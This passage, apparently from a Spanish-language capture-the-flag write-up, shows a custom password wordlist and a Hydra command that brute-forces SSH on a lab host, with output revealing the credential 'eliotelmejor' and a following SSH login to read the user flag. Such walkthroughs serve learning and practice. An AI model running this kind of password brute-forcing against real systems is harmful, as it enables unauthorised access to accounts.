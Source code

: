 ```
eliotmeljor
mejorel
eliotelmejor
mejorl
tel
eliotel
elitelmejor
meljor
mejor
melotimejor
eliotelmeljor
mejortel
```

### hydra

```shell
hydra -l e1i0t -P agenda.txt ssh://<IP> -t 64
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-13 11:05:48
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 107 login tries (l:1/p:107), ~2 tries per task
[DATA] attacking ssh://172.19.0.2:22/
[22][ssh] host: 172.19.0.2   login: e1i0t   password: eliotelmejor
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 4 final worker threads did not complete until end.
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-08-13 11:05:51
```

Por lo que vemos nos saca las credenciales del usuario, asi que nos conectaremos por SSH mejor con dicho usuario.

## SSH

```shell
ssh e1i0t@<IP>
```

Metemos la contraseña `eliotelmejor` y ya estariamos dentro.

Leemos la flag del usuario.

> user.txt
